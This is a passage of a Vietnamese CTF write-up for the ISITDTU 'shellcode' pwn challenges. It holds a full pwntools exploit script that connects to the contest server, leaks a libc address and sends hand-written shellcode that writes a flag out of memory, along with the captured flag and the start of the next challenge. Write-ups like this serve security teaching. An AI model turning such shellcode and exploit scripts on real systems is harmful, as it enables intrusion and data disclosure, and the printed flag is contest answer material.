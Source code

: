 Khi nhảy vào shellcode, **`rdx`** chứa giá trị của địa chỉ shellcode. Vậy nên địa chỉ của vùng nhớ flag sẽ là **`rdx + 0x1000`**. 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("152.69.210.130", 3001)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

ru(b"Some gift for you: ")

libc_leak = int(rl().strip(), 16) 
libc_base = libc_leak - libc.symbols["printf"]
log.info(f"libc leak = {hex(libc_leak)}")

payload = asm("""
    add rdx, 0x1000      
    mov rax, 0x100
    push rax         
    push rdx          
    mov rdi, 1 
    mov rsi, rsp 
    mov rdx, 1                                 
    mov rax, 0x14
    syscall           
""")

p.send(payload)

p.interactive() 
# ISITDTU{061e8c26e3cf9bfad4e22879994048c8257b17d8}
```

## pwn/shellcode 2

{{< admonition note "Challenge Information" >}}
* 61 solves / 100 pts / by code016hiro
* **Given files:** [shellcode2.rar](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EX0TUAE1NPhJndbYW1iHfpYBTKYyWKIMhYnFfxp1WSXHFA?e=sBRCLM)
* **Description:** **`nc 152.69.210.130 3002`**
{{< /admonition >}}

